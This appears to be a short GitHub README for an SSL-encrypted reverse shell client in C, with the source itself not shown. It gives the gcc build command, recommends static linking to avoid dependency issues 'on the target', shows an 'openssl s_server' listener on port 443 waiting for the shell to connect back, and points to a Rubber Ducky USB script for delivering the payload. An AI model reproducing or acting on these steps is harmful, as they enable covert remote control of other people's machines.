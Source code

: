 

## Compilation and Usage :
 
  Before compiling, please make sure you have the OpenSSL dev package installed.
  Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

  You will probably want to link statically against the library to avoid dependencies issues on the target. 
  You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .
  To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>



## Rubber Ducky Script :
  
  This is a script that can be used to deliver your payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
